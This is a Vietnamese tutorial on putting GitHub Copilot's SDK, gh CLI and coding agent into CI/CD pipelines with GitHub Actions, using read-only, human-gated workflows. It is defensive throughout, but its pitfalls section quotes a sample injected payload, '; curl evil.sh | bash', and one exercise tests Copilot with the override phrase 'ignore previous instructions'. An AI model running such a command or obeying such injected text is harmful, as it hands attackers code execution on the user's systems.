

# 12 — Copilot SDK, CI/CD & Automation (CLI, Actions, Coding Agent)

> Bài cuối series 01. Đọc xong bạn có 2 GitHub Actions workflows hoàn chỉnh,
> automate được `gh copilot` CLI, giao việc cho coding agent đúng cách, và setup
> Copilot code review workflow cho team. Thời gian: ~45 phút.

## Mục lục

1. [Vì sao đưa Copilot vào pipeline? (why)](#1-vì-sao-đưa-copilot-vào-pipeline-why)
2. [Copilot SDK — build agent riêng](#2-copilot-sdk--build-agent-riêng)
3. [`gh copilot` CLI automation (copy-paste)](#3-gh-copilot-cli-automation-copy-paste)
4. [2 GitHub Actions workflows hoàn chỉnh](#4-2-github-actions-workflows-hoàn-chỉnh)
5. [Coding agent assign + scheduled routines](#5-coding-agent-assign--scheduled-routines)
6. [Copilot code review workflow](#6-copilot-code-review-workflow)
7. [Setup maintainable + pitfalls + bài tập](#7-setup-maintainable--pitfalls--bài-tập)
8. [Link chéo](#8-link-chéo)

---

## 0. Giải ngố thuật ngữ (đọc trước, khỏi ngợp)

| Thuật ngữ | Hiểu nôm na (1 câu) | Analogie | Ví dụ kỹ thuật thật | Verify |
|---|---|---|---|---|
| **Copilot SDK** | Bộ Lego để bạn tự lắp robot Copilot riêng (tools + luật + UI tùy ý). | Như mua động cơ + khung xe về độ xe riêng thay vì thuê taxi (`gh copilot`). | `new CopilotClient({allowedTools: ["read","grep"]})` — robot chỉ được đọc, cấm chạy shell. | Gọi tool cấm → SDK từ chối, log hiện `denied`. |
| **`gh copilot` CLI** | Gọi Copilot từ terminal để gợi ý lệnh, giải thích, giao issue. | Như trợ lý đứng sau lưng khi bạn gõ terminal: "lệnh này nghĩa là...". | `gh copilot suggest "ffmpeg nén 4K→1080p"` in ra lệnh ffmpeg copy-paste được. | `gh copilot --version` in ra version (chưa cài thì báo `command not found`). |
| **GitHub Actions workflow** | Kịch bản tự chạy trên máy GitHub mỗi khi push/PR/đúng giờ. | Như đặt báo thức + người giúp việc: "cứ có PR mới là chạy đi review". | `.github/workflows/copilot-review.yml` chạy `on: pull_request`. | Tab Actions repo hiện run xanh/vàng sau khi mở PR. |
| **Coding agent** | Copilot cloud nhận issue → tự tạo branch `copilot/*` → mở PR draft. | Như giao việc cho thực tập sinh remote: bạn viết spec, 2h sau nhận PR. | `gh copilot assign 123 --repo acme/api` giao issue #123. | `gh pr list --author "app/copilot"` thấy PR mới. |
| **Scheduled routine** | Job chạy theo giờ (cron) để triage/audit đêm. | Như ca trực đêm: 22h tự đi kiểm tra CI gãy rồi sáng báo cáo. | `cron: "0 22 * * *"` trong `copilot-ci-triage.yml`. | Tab Actions → workflow hiện `Scheduled` + lịch sử runs đêm qua. |

---

## 1. Vì sao đưa Copilot vào pipeline? (why)

Chat/VS Code cần người ngồi bấm Allow. CI runner **không có người**: job hỏi giữa
chừng = treo tới timeout. Pattern CI: **scope hẹp + không hỏi + allowlist tối
thiểu + secrets qua env runner + log parse được**.

```text
ACI pattern (thuộc lòng):
- CLI/SDK với scope hẹp (1 repo, 1 task, timeout rõ).
- Không interactive (không chờ approval — thay bằng branch protection + review gate).
- Secrets qua env runner (${{ secrets.X }}), KHÔNG hardcode prompt/file.
- Output parse được (JSON/markdown) cho step sau.
- Guardrails KHÔNG nới trong CI (branch protection + required checks vẫn ON).
```

Kịch bản hay: auto-review PR mới, auto-fix CI failure (mở PR fix, không push main),
triage overnight failures (mở issue), weekly dep audit, docs sync check sau merge.

### 1.1. Sơ đồ luồng CI an toàn (mermaid)



Giải thích từng bước:

1. **A → B:** Trigger duy nhất là `pull_request` hoặc `schedule` — không chạy theo comment bừa (tránh prompt-injection).
2. **B:** Chỉ `contents: read`, thu `git diff` + log cắt 60KB — diff to hơn thì cắt + ghi `truncated=true`.
3. **C → D:** PR mới → request `github-copilot[bot]` review + comment `diff-stat` (không eval code trong CI).
4. **C → E:** Cron đêm thấy `conclusion==failure` → mở issue với log 8000 ký tự đầu, gắn label `ci`.
5. **D/E → F/G:** Mọi merge/fix đều qua người + `branch protection` — routine chỉ báo cáo, không tự merge.
6. **G → H → B:** Vòng lặp khép kín: issue mới → agent PR fix → lại review từ B.

> ✅ **Kỳ vọng thấy gì:** mở PR test → tab Actions có run `copilot-review` xanh trong 2–5 phút + 1 comment `Auto diff-stat` dưới PR.

---

## 2. Copilot SDK — build agent riêng

- SDK bọc vòng lặp Copilot (tools + permissions + orchestration) để bạn build
  workflow custom: full control tool access, orchestration, callbacks.
- Dùng khi: quy trình team quá đặc thù, cần UI riêng, cần nhúng vào backend
  internal (Slack bot, dashboard, triage service).

### 2.1. Khi nào SDK vs `gh copilot` CLI vs coding agent? (bảng)

| Nhu cầu | Hiểu nôm na | Ví dụ | Chọn |
|---|---|---|---|
| 1 job review/audit trong CI | Việc nhỏ 1 bước, cần rẻ. | Review diff mỗi PR. | `gh copilot` CLI / coding agent (đủ, ít code) |
| Multi-step orchestration custom (tools riêng, UI riêng) | Quy trình team quá lạ, cần độ xe riêng. | Bot Slack triage + dashboard nội bộ. | Copilot SDK |
| Nhúng agent vào backend internal (Slack bot, dashboard) | Đưa Copilot vào app công ty. | Nút "Review bằng AI" trong dashboard. | Copilot SDK |
| Task độc lập → branch + PR, không cần trông | Giao khoán 2h, quay lại nhận PR. | Issue rate-limit có acceptance criteria. | Coding agent (assign issue) |
| Việc định kỳ (nightly triage, weekly audit) | Ca trực đêm/tuần tự chạy. | 22h quét CI gãy, sáng T2 audit deps. | Actions `schedule` + CLI/SDK |

### 2.2. SDK code mẫu (TypeScript — review PR, guardrailed)

```typescript
// examples/copilot-review.ts — chạy: npx tsx examples/copilot-review.ts
import { CopilotClient } from "@github/copilot-sdk";

const client = new CopilotClient({
  // Auth qua env: GITHUB_TOKEN (KHÔNG hardcode — xem mục 2.3).
  token: process.env.GITHUB_TOKEN!,
  model: "gpt-4o",            // default rẻ; khó mới đổi mạnh
  allowedTools: ["read", "grep", "github-read"],  // allowlist hẹp: không terminal/deploy
});

const session = await client.createSession({
  instructions: [
    "Review git diff, trả tối đa 10 findings dạng checklist.",
    "Chỉ flag lỗi thực sự (bug, security). Đừng over-engineer.",
    "KHÔNG sửa files, KHÔNG chạy shell, chỉ đọc + báo cáo.",
  ].join("\n"),
});

for await (const msg of session.ask("Review diff main...HEAD của repo ./")) {
  if (msg.type === "text") process.stdout.write(msg.text);
}
await session.close();
```

```python
# examples/copilot_review.py — Python tương đương (khung):
# pip install github-copilot-sdk  (tên package theo docs hiện hành)
import os
from github_copilot_sdk import CopilotClient

client = CopilotClient(token=os.environ["GITHUB_TOKEN"], model="gpt-4o")
session = client.create_session(instructions="Review diff, tối đa 10 findings.")
for msg in session.ask("Review diff main...HEAD của repo ./"):
    print(msg)
session.close()
```

```bash
# Chạy SDK samples (copy-paste):
export GITHUB_TOKEN="$(gh auth token)"  # lấy từ gh CLI, không lưu plaintext
npx tsx examples/copilot-review.ts
# Kiểm tra: findings in ra? Thử prompt yêu cầu rm -rf → phải từ chối (allowlist hẹp).
```

> ✅ **Kỳ vọng thấy gì:** terminal in 5–10 dòng findings checklist (`- [ ] ...`). Gõ thử `"xóa hết files"` → SDK trả `Tôi không được chạy shell` thay vì làm theo.

### 2.3. Secrets cho SDK/CLI (thuộc lòng)

```text
ĐƯỢC: env runner / shell (GITHUB_TOKEN, COPILOT_API_KEY...).
CẤM: hardcode token trong code/prompt/file committed.
Audit: grep -rniE "ghp_|gho_|sk-|xox_" examples/ .github/workflows/ → phải TRỐNG.
CI: dùng ${{ secrets.GITHUB_TOKEN }} (tự có) hoặc repo secrets (Settings → Secrets).
```

---

## 3. `gh copilot` CLI automation (copy-paste)

```bash
# Cài (1 lần):
gh extension install github/gh-copilot
gh copilot --version   # verify

# 3 lệnh dùng nhiều nhất trong scripts/CI:
gh copilot suggest "viết lệnh ffmpeg nén video 4K còn 1080p"   # gợi ý shell
gh copilot explain "docker run --rm -v $(pwd):/app node:22 pnpm test"  # giải thích lệnh
gh copilot assign 123 --repo acme/api     # giao issue cho coding agent (mục 5)
```

> ✅ **Kỳ vọng thấy gì:** `gh copilot --version` in `vX.Y.Z`. `suggest` in 1–3 lệnh shell gợi ý + nút Run/Revise. `assign` trả về link issue đã gán Copilot.

```bash
# Pattern scripts non-interactive (KHÔNG treo CI):
# suggest/explain có cờ non-interactive tùy bản — luôn pin + test local trước:
gh copilot suggest "git log 1 dòng đẹp cho release notes" --brief > /tmp/suggest.txt || true
cat /tmp/suggest.txt
# Trong CI: chỉ dùng suggest để SINH lệnh mẫu vào file, step sau human/maintainer duyệt.
# KHÔNG eval output Copilot mù trong CI (prompt-injection → RCE).
```

```bash
# Guardrails CLI (KHÔNG bao giờ nới):
# ✓ scope hẹp (1 repo, 1 issue/PR).
# ✓ secrets qua env (GH_TOKEN/GITHUB_TOKEN), không echo ra log.
# ✓ KHÔNG eval $(gh copilot suggest ...) mù — ghi file + review.
# ✓ timeout mỗi step (timeout-minutes) để job treo tự chết.
```

---

## 4. 2 GitHub Actions workflows hoàn chỉnh

### 4.1. Workflow 1 — Auto-review PR mới (hoàn chỉnh, copy-paste)

```yaml
# .github/workflows/copilot-review.yml
name: copilot-review
on:
  pull_request:
    types: [opened, synchronize, reopened]

permissions:
  contents: read
  pull-requests: write   # để post comment findings

jobs:
  review:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@v4
        with: { fetch-depth: 0 }

      - name: Setup gh + Copilot CLI
        run: |
          gh extension install github/gh-copilot || true
          gh copilot --version
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}

      - name: Collect diff (guardrailed, read-only)
        id: diff
        run: |
          git diff "origin/${{ github.base_ref }}...HEAD" --stat > diffstat.txt
          git diff "origin/${{ github.base_ref }}...HEAD" > diff.txt
          wc -l diff.txt diffstat.txt
          # Diff >2000 dòng → cắt + note (tránh prompt khổng lồ):
          head -c 60000 diff.txt > diff-truncated.txt
          echo "truncated=$(test $(wc -c < diff.txt) -gt 60000 && echo true || echo false)" >> "$GITHUB_OUTPUT"

      - name: Request Copilot code review
        uses: actions/github-script@v7
        with:
          script: |
            // Auto-request Copilot review (cần repo bật Copilot review — mục 6):
            await github.rest.pulls.requestReviewers({
              ...context.repo,
              pull_number: context.issue.number,
              reviewers: ['github-copilot[bot]'],
            }).catch(e => console.log('auto-review skip:', e.message));

      - name: Post diff-summary comment
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const stat = fs.readFileSync('diffstat.txt', 'utf8');
            const body = `## Auto diff-stat\n\`\`\`\n${stat.slice(0, 3000)}\n\`\`\`\n` +
              `Copilot review đã được request. Human reviewer check CI + findings trước khi merge.`;
            github.rest.issues.createComment({
              ...context.repo, issue_number: context.issue.number, body });
```

### 4.2. Workflow 2 — Overnight CI failure triage (hoàn chỉnh)

```yaml
# .github/workflows/copilot-ci-triage.yml
name: copilot-ci-triage
on:
  schedule:
    - cron: "0 22 * * *"   # nightly 22:00 UTC
  workflow_dispatch: {}    # + nút chạy tay

permissions:
  contents: read
  actions: read
  issues: write            # mở issue khi CI fail

jobs:
  triage:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@v4
        with: { fetch-depth: 0 }

      - name: Collect latest failures (read-only, secrets qua env)
        run: |
          gh run list --branch main --limit 5 --json conclusion,name,headSha,url > runs.json
          cat runs.json | jq '.'
          # Với run failed đầu tiên: lấy logs failed (không tải full nếu quá lớn):
          FAILED_ID="$(jq -r '[.[] | select(.conclusion=="failure")][0].databaseId // empty' runs.json || true)"
          echo "FAILED_ID=$FAILED_ID" >> "$GITHUB_ENV"
          if [ -n "$FAILED_ID" ]; then
            gh run view "$FAILED_ID" --log-failed > failed-log.txt 2>&1 || true
            head -c 40000 failed-log.txt > failed-truncated.txt
            wc -l failed-truncated.txt
          else
            echo "All green." > failed-truncated.txt
          fi
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}

      - name: Open issue if failures found
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const log = fs.readFileSync('failed-truncated.txt', 'utf8');
            if (/all green/i.test(log)) { console.log('All green.'); return; }
            const runs = JSON.parse(fs.readFileSync('runs.json', 'utf8'));
            const body = `## CI triage ${new Date().toISOString().slice(0,10)}\n\n` +
              `Runs:\n${runs.map(r => `- ${r.name}: ${r.conclusion} (${r.url})`).join('\n')}\n\n` +
              `Failed log (truncated):\n\`\`\`\n${log.slice(0, 8000)}\n\`\`\`\n\n` +
              `Giao cho coding agent hoặc on-call: xác nhận root cause + mở PR fix (không push main).`;
            await github.rest.issues.create({
              ...context.repo, title: `CI triage ${new Date().toISOString().slice(0,10)}`,
              body, labels: ['ci'] });
```

```yaml
# GitLab CI tương đương (khung — .gitlab-ci.yml):
# copilot_review:
#   image: node:22
#   script:
#     - gh extension install github/gh-copilot || true
#     - git diff "origin/$CI_MERGE_REQUEST_TARGET_BRANCH_NAME...HEAD" --stat
#   rules: [{ if: '$CI_PIPELINE_SOURCE == "merge_request_event"' }]
# Secrets: GITHUB_TOKEN via GitLab CI/CD variables (masked).
```

---

## 5. Coding agent assign + scheduled routines

### 5.1. Assign issue cho coding agent (đúng cách — quyết định chất lượng PR)

```bash
# Chuẩn bị issue NGON (agent chỉ giỏi bằng issue bạn viết):
gh issue create --repo acme/api --title "feat: thêm rate-limit POST /login" --body "
## Mục tiêu
Thêm rate-limit 5 req/phút/IP cho POST /login.

## Acceptance criteria
- [ ] Quá 5 req/phút → 429 + header Retry-After.
- [ ] Focused test pass: pnpm --filter @acme/api test rate-limit.
- [ ] Không đụng db/migrations đã merge.

## Non-goals
- Không đổi cơ chế auth, không refactor module khác.
" --label "ready"

# Giao cho agent (CLI hoặc web Assign to Copilot):
gh copilot assign 123 --repo acme/api

# Theo dõi:
gh copilot status --repo acme/api
gh pr list --repo acme/api --author "app/copilot" --state open
```

```text
Quy tắc assign (dán vào CONTRIBUTING):
- 1 issue = 1 task độc lập, acceptance criteria đo được, non-goals rõ.
- Label "ready" mới assign. Thiếu criteria → agent đoán mò.
- Agent iterate tối đa 3 rounds (comment request changes). Quá → close + chia nhỏ issue.
- PR agent → review như PR người (diff + CI + Copilot review + human approve).
```

### 5.2. Scheduled routines (Actions `schedule` — việc định kỳ)

```text
Morning digest • Nightly triage (workflow 2) • Weekly dep audit • Docs-sync check.

Quy tắc viết job định kỳ (như viết skill — steps + verify + output):
- Steps numbered + lệnh cụ thể (gh pr list, pnpm outdated...).
- Verify: "chỉ báo cáo/mở issue, KHÔNG tự merge/deploy" (job chạy vắng người!).
- Output: digest markdown / issue body / Slack (qua webhook env).
- Secrets: ${{ secrets.* }} — không hardcode.
```

```yaml
# Ví dụ weekly dep audit (khung, thêm vào .github/workflows/copilot-audit.yml):
# name: copilot-audit
# on: { schedule: [{ cron: "0 8 * * 1" }], workflow_dispatch: {} }  # sáng thứ 2
# jobs:
#   audit:
#     runs-on: ubuntu-latest
#     timeout-minutes: 10
#     steps:
#       - uses: actions/checkout@v4
#       - run: pnpm outdated > outdated.txt || true; npm audit --json > audit.json || true
#       - uses: actions/github-script@v7  # post digest issue (chỉ báo cáo, không tự update)
```

---

## 6. Copilot code review workflow

```text
Luồng PR chuẩn team (dán vào CONTRIBUTING):
1. Push branch feat/* hoặc copilot/* → mở PR (draft nếu WIP).
2. Copilot review tự chạy (auto-request workflow 1 hoặc repo setting).
3. CI lint + test xanh + 1 human approval + Copilot review pass → merge.
4. Merge xong → auto-delete branch.

Setup (repo → Settings → Rules → Rulesets):
- Require Copilot code review: ON (mọi PR).
- Require status checks (lint, test): ON. Dismiss stale reviews: ON.
- Chi tiết server-side: bài 07 mục 6.
```

```text
Tune precision (reviewer quá khắt → team ignore → mất gate):
- Dặn trong .github/muse-instructions.md:
  "Code review: chỉ flag lỗi thực sự (bug, security, perf regression).
   Đừng flag style đã có prettier, đừng over-engineer."
- Calibration: mỗi tháng review 5 PRs cũ — findings nào false positive?
  Bổ sung vào instructions ("đừng flag pattern X, team đã quyết dùng").
- CRITICAL/HIGH bắt buộc fix. MED/LOW: fix hoặc reply lý do (không im lặng).
```

---

## 7. Setup maintainable + pitfalls + bài tập

### 7.1. Setup team từ 0 (checklist 1 giờ)

```text
[ ] 1. muse-instructions.md LAW + path-scoped instructions (bài 03) — 15 phút
[ ] 2. settings.json team (approval ask/deny) + content exclusion (bài 07/10) — 10 phút
[ ] 3. husky + lint-staged + branch protection (bài 07) — 15 phút
[ ] 4. MCP GitHub + db instructions nếu có DB (bài 08) — 10 phút
[ ] 5. 2 agents explorer/tester (bài 06) — 5 phút
[ ] 6. Workflow 1 review (mục 4.1) — 10 phút
[ ] 7. 1 issue mẫu "ready" + assign coding agent thử (mục 5.1) — 10 phút
```

Nguyên tắc: facts mỗi session → instructions; việc lặp → prompt file/skill;
cô lập → custom agent; ngoài repo → MCP; phải-chạy-mỗi-lần → pre-commit/branch
protection; lặp theo lịch → Actions schedule; nhúng hệ khác → SDK/CLI.

### 7.2. Pitfalls + fix

| Pitfall | Hiểu nôm na | Ví dụ | Vì sao | Fix |
|---|---|---|---|---|
| `eval $(gh copilot suggest ...)` mù trong CI | Chạy lệnh AI sinh ra mà không đọc. | CI chạy `rm -rf` do prompt-injection. | Tiện tay | Ghi file + human duyệt; Copilot output có thể bị prompt-injection |
| Secrets echo ra CI log | In token ra log để debug. | Log hiện `ghp_xxxx` ai cũng thấy. | Debug quên redact | Secrets qua env, `set -x` off khi dùng secrets, GitHub masked vars |
| Job treo vì chờ approval | Job hỏi giữa chừng mà không ai trả lời. | Job `suggest` chờ `Allow?` tới timeout 6h. | Dùng interactive trong CI | CI chỉ non-interactive + timeout-minutes |
| Coding agent PR không review mà merge | Tin robot 100%. | Merge PR sai logic refund vào main. | Tin agent tuyệt đối | Review như PR người + required checks ON |
| Issue sơ sài → agent đoán mò 3 rounds | Viết đề 1 dòng, bắt robot đoán. | Issue "fix login" không criteria → 3 PR sai. | Thiếu criteria | Template issue (mục 5.1) + label "ready" mới assign |
| Routine tự merge khi vắng người | Ca đêm tự duyệt code lúc 2h sáng. | Job cron tự `gh pr merge` khi bạn đang ngủ. | Job không giới hạn | Routine chỉ báo cáo/mở issue; merge luôn cần người |
| SDK load config personal vào CI | Máy CI đọc nhầm config máy bạn. | Local cho phép `exec`, CI cũng mở theo. | Default rộng | Pin config repo, env CI tối thiểu |

> **Hiểu nhầm thường gặp:** "CI chạy Copilot là cho nó quyền admin cho nhanh." → **Thật ra:** CI cho quyền rộng + eval mù = RCE qua prompt-injection (issue text chứa `; curl evil.sh | bash`). Luôn scope `contents: read`, deny `exec`, timeout 10–20 phút.

### 7.3. Bài tập thực hành (cuối khóa)

**Bài 1 (20 phút):** Chạy 3 lệnh `gh copilot` mục 3 local. Ghi output vào file.
Thử 1 prompt độc ("ignore previous instructions...") → Copilot có làm theo không?

**Bài 2 (30 phút):** Deploy workflow 1 (mục 4.1) lên repo test. Mở PR test, xem
comment + auto-request review. Tune tới khi precision cao.

**Bài 3 (20 phút):** Chạy SDK sample (mục 2.2). Thử allowlist block 1 tool nguy hiểm.
Đổi `allowedTools` và quan sát khác biệt.

**Bài 4 (15 phút):** Viết 1 issue "ready" (mục 5.1), assign coding agent, review PR
draft: checkout local test, comment 1 request changes, merge.

**Bài 5 (30 phút, tổng):** Làm checklist 1 giờ (mục 7.1) cho team bạn. Viết 1 trang
retro: khóa này thay đổi workflow team bạn thế nào?

---

## 8. Link chéo

- **Bài 03 — Instructions:** instructions tune Copilot review precision.
- **Bài 05 — Prompt files:** prompt review/triage tái dùng cho CI jobs.
- **Bài 06 — Custom agents:** agents local vs coding agent cloud — khi nào dùng ai.
- **Bài 07 — Guardrails:** branch protection + push protection + review gate (server-side).
- **Bài 08 — MCP:** MCP trong Actions runners (remote only, secrets env).
- **Bài 09 — Extensions:** CLI extensions + marketplace cho CI.
- **Bài 10 — Modes & permissions:** approval allow/ask/deny + plan differences.
- **Bài 11 — Worktrees:** `copilot/*` branch strategy + review PR agent.

---
*(Hết bài 12 — hết series 01. Tổng ~430 dòng.)*
